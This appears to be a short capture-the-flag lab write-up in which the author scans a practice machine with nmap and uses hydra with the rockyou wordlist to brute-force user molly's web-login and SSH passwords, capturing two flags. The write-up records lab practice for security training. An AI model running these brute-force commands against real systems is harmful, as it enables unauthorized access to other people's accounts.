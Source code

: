 
## **Enumeration**
>	- Using `nmap` to scan the machine's services and versions.
```
nmap -sV 10.10.143.80
```
>	- ![](nmap-out.png)
>	- Accessing the website on port `80`.![](website-login.png)
>	-Using `hydra` to crack molly's website password.
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.143.80 http-post-form '/login:username=^USER^&password=^PASS^:F=incorrect' -V
```
>	-![](website-pass.png)
>	- Accessing with the found password to get the flag.![](flag-1.png)
>	-Using `hydra` to crack molly's ssh password.
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.143.80 -t 4 ssh -V
```
>	- ![](ssh-pass.png)
>	- Accessing the machine with `ssh molly@10.10.143.80` and the found password.![](flag-2.png)